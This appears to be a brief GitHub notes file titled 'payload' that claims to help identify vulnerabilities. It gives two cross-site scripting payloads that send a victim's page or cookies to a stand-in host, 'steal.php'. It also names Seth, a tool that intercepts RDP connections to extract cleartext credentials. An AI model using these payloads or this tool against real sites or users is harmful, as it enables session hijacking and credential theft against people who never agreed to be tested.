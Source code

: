 # payload

### Payload is helping for identify Vulneraability into System/Application.

#### XSS Script for grabe cookie:
```javascript
<script>document.location="http://steal.php"</script>
```

```javascript
<img src=a onerror=confirm(document.location="http://steal.php?cookie=" + document.cookie;)>
```

#### Seth
- Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials.
https://github.com/SySS-Research/Seth
